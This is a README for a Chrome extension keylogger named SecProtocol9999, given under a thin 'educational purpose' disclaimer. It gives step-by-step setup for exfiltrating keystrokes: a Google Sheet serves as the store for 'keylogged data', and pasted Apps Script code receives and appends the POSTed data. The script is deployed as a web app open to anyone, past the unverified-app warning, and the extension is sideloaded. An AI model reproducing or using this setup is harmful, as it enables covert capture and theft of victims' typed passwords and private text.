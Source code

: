 # DISCLAIMER : [NOTICE] - IT SHOULD ONLY BE USED FOR EDUCATIONAL PURPOSE BY SENIOR DEVELOPERS. ANY MISUSE OF "Mushahid Ali's" CODE WILL BE CONSIDERED AS A PUNISHABLE OFFENSE!

Before using this Chrome Extension, first create the following -

#1. Create a Google Spreadsheet at : https://docs.google.com/spreadsheets/u/0/ so that we can make Google Sheets as a database where we can store all the keylogged data!

#2. At the first row, first column[A1]; insert text such as "first".

#3. At the first row, second column[B1]; insert text such as "second".

#4. Now, we need a script(INTERFACE) to connect Google Sheets(dataBase) with our Chrome Extension script. For that we'll be using Google App Script service. Go to "Tools" and then select to Script Editor.

#5. In the code section, paste the following code, save it, run the code : 

```
function doGet(e) {
    //Displays the text on the webpage.
    return ContentService.createTextOutput("This is a GET Request!");
}

function doPost(e) {
    var sheet = SpreadsheetApp.getActiveSheet();
    
    //Parsing the request body
    var body = JSON.parse(e.postData.contents)
    
    //Adding a new row with content from the request body
    sheet.appendRow([body.first,
    body.second
    ])
}
```

#6. Go to "Deploy" and then click on "New Deployment".

#7. In it, click on the "Service Type" and click on "Web App". Fill the data only for : "Execute as" to : YOURMAIL@MAIL.com AND "Who has access" to : "anyone".

#8. And then deploy it. NOTICE : If it asks for "Review permission", grant it permission even if it is showing "This App ins't verified", click on Advanced and click on the unsafe link below it.

#9. And FINALLY it will provide you with a Web App URL(LINK), copy it and paste it in the two variables known as "url" in the "secprotocol.js" file before using the SecProtocol9999 Chrome:extension services! All The Chrome Extension files should be inside a folder for it to be usable!

IF YOU DO NOT KNOW HOW TO UPLOAD "CHROME EXTENSION", FOLLOW THE STEPS BELOW : 
-> Go to, chrome://extensions and click on the "Load Unpacked" button and select your Chrome Extension Folder known as "secprotocol9999" and that's all!

This Is Mushahid Ali, signing out!
ENJOY!

